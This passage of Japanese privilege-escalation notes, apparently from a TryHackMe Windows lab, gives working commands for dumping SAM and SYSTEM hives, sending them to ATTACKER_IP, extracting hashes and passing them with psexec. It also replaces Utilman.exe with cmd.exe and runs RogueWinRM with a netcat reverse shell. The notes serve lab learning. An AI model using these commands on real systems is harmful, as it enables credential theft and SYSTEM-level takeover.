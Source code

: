 SAMとSYSTEMの取得
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.

kali側にコピーする
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\

ハッシュを抜き取る
$impacket-secretsdump -sam sam.hive -system system.hive LOCAL

抜き取ったハッシュでpsexecで接続する
user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94
```


ㅤ  
ㅤ  
### SeTakeOwnershipを悪用する

ユーザーはファイルやレジストリ キーを含むシステム上のあらゆるオブジェクトの所有権を取得できる  
→**SYSTEM として実行されているサービスを検索し、サービスの実行可能ファイルの所有権を取得できる**  

ㅤ  
ㅤ  
#### Utilmanを悪用して権限昇格する

Utilmanは**SYSTEM権限で実行されるロック画面で簡単操作オプションを提供するために使用される組み込みのWindowsアプリ**  
→Utilmanを任意のペイロードに置き換えればSYSTEM権限を取得することができる  

```
Utilmanの所有権を取得する
C:\> takeown /f C:\Windows\System32\Utilman.exe
SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".

utilman.exe に対する完全な権限をユーザーに付与する
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files

utilman.exeをcmd.exeに置き換える
C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.


最後にスタートボタンから画面をロックして、簡単操作(Ease of Access)ボタンをクリックするとSYSTEM権限でcmdが起動する
rdesktopでwindows+Uでcmdが起動される
```


ㅤ  
ㅤ  
### SeImpersonate / SeAssignPrimaryTokenを悪用する

プロセスは他のユーザーになりすまし、そのユーザーに代わって動作することができる  
→攻撃者として、SeImpersonate または SeAssignPrimaryToken 権限を持つプロセスを制御することができれば、  
そのプロセスに接続して認証する任意のユーザーになりすますことができる  

#### RogueWinRMで権限昇格する

```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```
ㅤ  
```